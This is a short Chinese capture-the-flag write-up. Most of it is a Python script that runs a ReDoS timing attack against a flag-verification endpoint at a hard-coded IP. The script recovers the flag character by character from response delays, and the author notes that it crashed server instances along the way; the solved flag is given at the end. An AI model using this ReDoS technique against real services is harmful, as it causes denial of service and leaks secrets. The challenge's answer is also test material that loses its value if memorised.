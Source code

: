 ![guess](/img/guess.png)

exp:
```python
import requests
import time

flag = "g3"
ext = "zY"
for i in range(50):
    alls = []
    for f in "{}_0123456789abcdefghijklmnopqestuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        t = time.time()
        headers = {'Content-Type': 'application/json'}
        payload = """{"q":"^((.*)+)+[^%s]%s$","tmp":"%d"}""" % (f, ext, t)
        #payload = """{"q":"^(((.*)+?)+?)+?[^%s]%s$","tmp":"%d"}""" % (f, ext, t)
        #print payload
        r = requests.post(url="http://121.37.179.47:8081/verifyFlag", headers=headers, data=payload)
        tt = time.time() - t
        alls.append({"time":tt,"v":f})
        print f,tt,r,len(r.text),payload

    alls.sort()
    ext = alls[-1]["v"] + ext
    print alls[-3:]
    print i, flag, ext
```
我做这题的时候服务器一触发redos就挂，挂一台跑一位出来（运维大哥别打我
最后跑出结果`g3tFLAaGEAxY`，拿了一血。
flag：flag{g3tFLAaGEAxY}
